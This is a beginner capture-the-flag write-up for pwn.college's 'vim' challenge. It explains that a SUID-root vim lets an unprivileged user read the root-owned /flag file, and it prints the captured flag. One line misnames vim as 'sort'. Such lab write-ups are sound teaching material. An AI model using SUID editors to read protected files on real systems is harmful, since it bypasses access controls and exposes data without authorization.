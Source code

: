 # Challenge Name: vim
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/vim`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/vim
```

output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/vim
```

-The `s` in `-rws` indicates it's a SUID binary.
-`vim` runs with **root privileges**.

## 🚀 Exploitation

The `sort` (Vi IMproved) is a highly configurable text editor for efficiently creating and changing any kind of text, so we can just use `vim` to read the flag.

```bash
vim /flag
```

Output:
```
pwn.college{gu_gJmG6FXWCEdXMf5EwQ3rPQZY.dlDNxwSM0IzMyEzW}
~                                                                                                                                    
"/flag" [readonly] 1L, 58C     
```


